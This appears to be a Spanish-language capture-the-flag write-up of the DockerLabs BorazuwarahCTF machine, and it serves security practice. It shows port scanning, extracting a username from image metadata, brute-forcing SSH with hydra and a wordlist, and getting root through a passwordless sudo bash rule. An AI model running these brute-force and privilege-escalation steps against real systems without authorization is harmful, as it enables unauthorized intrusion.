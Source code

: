 ```yaml
---
title: BorazuwarahCTF
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-01-04
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-borazuwarahctf/borazuwarahctf_logo.png
categories:
  - Docker Labs
tags:
  - linux
  - dockerlabs
  - ssh
  - http
  - tcp
  - steganography
  - password attacks
  - sudo abuse
  - information gathering
  - web analysis
  - vulnerability exploitation
  - privilege escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/borazuwarahctf:-$ ping -c 1 127.17.0.2
PING 127.17.0.2 (127.17.0.2) 56(84) bytes of data.
64 bytes from 127.17.0.2: icmp_seq=1 ttl=64 time=0.044 ms

--- 127.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.044/0.044/0.044/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos. 

```terminal
/home/kali/Documents/dockerlabs/borazuwarahctf:-$ sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG nmap1 127.17.0.2
Host: 127.17.0.2 ()     Status: Up
Host: 127.17.0.2 ()     Ports: 22/open/tcp//ssh///, 80/open/tcp//http///        Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/borazuwarahctf:-$ sudo nmap -sCV -p22,80 -vvv -oN nmap2 127.17.0.2
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 3d:fd:d7:c8:17:97:f5:12:b1:f5:11:7d:af:88:06:fe (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDuOdJLZN+CNU+7dcTJQbPr6zY2+Ou1YFR0w9Pan1DfaPUZljRHJcNmvSncrihzQ3HOAHfMWWvSzN+ZMC0YmWoA=
|   256 43:b3:ba:a9:32:c9:01:43:ee:62:d0:11:12:1d:5d:17 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGDv2JqKvBCR+Badmkr7YKPypEYshuCXxzM5+YdozyBD
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.59 ((Debian))
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.59 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```terminal
$ whatweb 127.17.0.2
http://127.17.0.2 [200 OK] Apache[2.4.59], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.59 (Debian)], IP[127.17.0.2]
```

---
## Web Analysis

Al analizar el servicio web, solo se muestra una página vacía que contiene una imagen. 

![](assets/img/dockerlabs-writeup-borazuwarahctf/borazuwarahctf1.png)

Al inspeccionar el código fuente de la página, confirmo que el único contenido relevante es la referencia a una imagen con el nombre `imagen.jpeg`.

![](assets/img/dockerlabs-writeup-borazuwarahctf/borazuwarahctf2.png)

```terminal
/home/kali/Documents/dockerlabs/borazuwarahctf:-$ wget http://127.17.0.2/imagen.jpeg
--2025-01-04 20:28:53--  http://127.17.0.2/imagen.jpeg
Connecting to 127.17.0.2:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18667 (18K) [image/jpeg]
Saving to: ‘imagen.jpeg’

imagen.jpeg                                 100%[===========================================================================================>]  18.23K  --.-KB/s    in 0s
2025-01-04 20:28:53 (1.03 GB/s) - ‘imagen.jpeg’ saved [18667/18667]
```

Descargo la imagen y utilizo exiftool para extraer los metadatos. En ellos encuentro un usuario `borazuwarah`.

Después de descargar la imagen del servidor, utilizo exiftool para analizar los metadatos en busca de información útil. Este análisis revela el usuario `borazuwarah`.

```terminal
/home/kali/Documents/dockerlabs/borazuwarahctf:-$ exiftool imagen.jpeg
```

![](assets/img/dockerlabs-writeup-borazuwarahctf/borazuwarahctf3.png)

Con el nombre de usuario `borazuwarah`, realizo un ataque de fuerza bruta contra el servicio SSH.

---
## Vulnerability Exploitation

```terminal
/home/kali/Documents/dockerlabs/borazuwarahctf:-$ sudo hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10 -I
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
```

![](assets/img/dockerlabs-writeup-borazuwarahctf/borazuwarahctf4.png)

El ataque tiene éxito y obtengo las credenciales SSH.

```terminal
/home/kali/Documents/dockerlabs/borazuwarahctf:-$ ssh borazuwarah@127.17.0.2
borazuwarah@127.17.0.2's password: 123456

borazuwarah@kali:~$ id
uid=1000(borazuwarah) gid=1000(borazuwarah) groups=1000(borazuwarah),27(sudo)
```

---
## Privilege Escalation


```terminal
borazuwarah@kali:~$ cat /etc/passwd | grep /bash$
root:x:0:0:root:/root:/bin/bash
borazuwarah:x:1000:1000::/home/borazuwarah:/bin/bash
```

El usuario `borazuwarah` tiene permisos completos para ejecutar cualquier comando como cualquier usuario, incluyendo `root`.

```terminal
borazuwarah@kali:~$ sudo -l
Matching Defaults entries for borazuwarah on kali:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User borazuwarah may run the following commands on kali:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/bash
```

Dado que el usuario puede ejecutar `/bin/bash` como `root` sin proporcionar contraseña, inicio una shell con privilegios de superusuario. La ejecución de este comando eleva mis privilegios al usuario `root`, confirmando el control completo del sistema.

```terminal
borazuwarah@kali:~$ sudo /bin/bash
root@kali:/home/borazuwarah# id
uid=0(root) gid=0(root) groups=0(root)
```